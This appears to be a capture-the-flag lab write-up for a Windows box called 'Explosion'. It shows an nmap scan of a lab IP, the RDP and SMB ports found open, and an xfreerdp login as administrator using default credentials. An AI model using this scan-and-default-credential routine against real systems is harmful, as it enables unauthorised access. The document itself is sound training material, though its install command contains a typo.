 # Box
Name: Explosion
ID: 5
Difficulty: Easy 

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `xfreerdp`

## 🎯 Target Environment
- **Ip Address**: 10.129.85.244
- **OS**: Windows

## 🧠 Recon
Nmap Scan:
```bash
nmap -sV 10.129.85.244
```
## 🔍 Enumeration
Found an open port **135/tcp**, running **msrpc** service
Found an open port **139/tcp**, running **netbios-ssn** service.
Found an open port **445/tcp**, running **microsoft-ds** service.
Found an open port **3389/tcp**, running **ms-wbt-server** service.

## 💥 Exploitation
1. Installed xfreerdp to connect to RDP service
````bash
sudo-apt-get install freerdp2-x11
````
2. Logged into RDP as administrator
````bash
xfreerdp /v:10.129.85.244 
xfreerdp /v:10.129.85.244 /u:administrator /cert:ignore
````
## 🔐 Privilege Escalation
Not required

## 🧼 Cleanup & Lessons
- xfreerdp session closed cleanly
**Key takeaways**: 
- Always read the help files to see what you can utilize to gain access
- Always try default credentials: root, user, and administrator as credentials 
